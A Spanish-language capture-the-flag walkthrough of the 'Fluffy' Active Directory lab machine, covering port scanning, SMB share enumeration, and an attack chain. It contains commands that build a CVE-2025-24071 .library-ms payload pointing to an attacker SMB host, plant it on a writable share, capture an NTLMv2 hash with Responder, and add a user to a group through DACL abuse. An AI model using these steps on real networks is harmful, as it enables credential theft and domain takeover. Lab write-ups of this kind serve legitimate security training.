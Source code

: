 #ActiveDirectory #windows #Easy 
# MACHINE INFORMATION

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!
### ping

```python
❯ ping -c 1 10.10.11.69
PING 10.10.11.69 (10.10.11.69) 56(84) bytes of data.
64 bytes from 10.10.11.69: icmp_seq=1 ttl=127 time=129 ms

--- 10.10.11.69 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 128.552/128.552/128.552/0.000 ms
```

### nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-28 22:24:39Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-28T22:25:26
|_  start_date: N/A
|_clock-skew: 6h59m58s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 28 10:26:37 2025 -- 1 IP address (1 host up) scanned in 193.77 seconds
```

### Enumeración SMB 

### Rid-Brute

```python
❯ crackmapexec smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --rid-brute
```

![[Pasted image 20250528120635.png]]

Usando la --shares, enumeramos los derechos de acceso a los recursos compartidos SMB disponibles

```python
❯ nxc smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```

![[Pasted image 20250528121206.png]]

Confirmamos el acceso de lectura y escritura a un recurso compartido personalizado llamado IT y descargamos todo con ==mget * .== 

![[Pasted image 20250528122155.png]]

el documento pdf hace referencia a algunos CVS conocidos que están parchados o que serán parchados próximamente
![[Pasted image 20250528122746.png]]

Este KeePass.exe.configarchivo es un archivo de configuración de aplicación .NET estándar, pero no expone las credenciales directamente.

![[Pasted image 20250528123035.png]]

  Sin embargo, esta línea en KeePass.exe.config: 

```python
xml
<loadFromRemoteSources enabled="true" />
```


…instruye al entorno de ejecución .NET para permitir la carga de ensamblados (DLL) desde ubicaciones remotas , incluidas: Rutas UNC ( \\attacker\share\malicious.dll) Unidades mapeadas Incluso ubicaciones basadas en la web (en versiones anteriores o casos mal configurados)

Normalmente, esto estaría bloqueado por la política de seguridad de .NET , a menos que esté permitido explícitamente como aquí. Esta configuración es una señal de alerta importante cuando un usuario extrae y ejecuta KeePass.exe desde un archivo ZIP, donde tenemos acceso de escritura . Esto sugiere claramente que el entorno está preparado para cargar algo desde una ubicación remota, un punto de partida clásico para el phishing de intranet mediante trucos de rutas SMB , señuelos de suplantación de identidad o cargas útiles de phishing enviadas mediante referencias a recursos compartidos de intranet . 

### CVE-2025-24071 Descripción general

Entre los CVE revelados en el PDF, el CVE-2025-24071 destaca por ser una coincidencia precisa con la configuración actual. Es un CVE reciente (si no recuerdo mal, hace unos meses leí el [[https://cti.monster/blog/2025/03/18/CVE-2025-24071.html]] CVE-2025-24071 es una vulnerabilidad de suplantación de identidad (spoofing) en el Explorador de archivos de Windows que permite a los atacantes capturar hashes NTLM con mínima interacción del usuario. La falla surge del procesamiento automático de .library-msarchivos del Explorador de archivos, que están basados ​​en XML y definen ubicaciones de bibliotecas.

### Suplantación de identidad (phishing) 
Primero, creamos el arma usando el repositorio PoC CVE-2025-24071 (o creamos uno manualmente, lo cual es bastante sencillo). Esto genera un .library-msarchivo diseñado para provocar la autenticación SMB en nuestro servidor controlado:

1. clonamos el repositorio
2. creamos un entorno virtual en python para poder operar de forma segura
3. activamos el entorno 
4. instalamos los requierements
5. ejecutamos el exploit


```python
❯ git clone https://github.com/ThemeHackers/CVE-2025-24071.git

❯ python3 -m venv venv

❯ source venv/bin/activate

❯ pip install -r requirements.txt

❯ python exploit.py -f Microsoft -i $10.10.14.133
```

![[Pasted image 20250528130756.png]]

esto creara un archivo xml parecido a este 

```python
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
  <url>\\10.10.45.11\shared</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

El payload está dentro exploit.zip. ahora vamos a montar el recurso compartido y vamos a tener nuestro responder a la escucha

```python
❯ sudo mount -t cifs \
  //dc01.fluffy.htb/IT /mnt/ \
  -o username='j.fleischman',password='J0elTHEM4n1990!',domain='fluffy.htb'

❯ sudo cp exploit.zip /mnt/
```

![[Pasted image 20250528133557.png]]

### Hashcat 
La trampa activó el sistema y Responder capturó un hash NTLMv2 activo FLUFFY\p.agila

![[Pasted image 20250528135043.png]]

### bloodhound-python
ya que tenemos credenciales validas vamos a recopilar datos del Active Directory

![[Pasted image 20250528140513.png]]

### Abuso de DACL
en este punto deberías ver solo una conexión entre nuestro usuario "P.AGILA" y el grupo de "Service Account Manager" pero ya alguien mas ha agregado a P.AGILA al grupo de "Service Account" pero nosotros haremos todo el recorrido como si este paso no existiera. en este caso el bloodhound nos da un comando para poder realizar este ataque. pero yo utilizare la herramienta "certipy-ad"

```python
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

![[Pasted image 20250528183244.png]]


![[Pasted image 20250528192546.png]]

![[Pasted image 20250528194216.png]]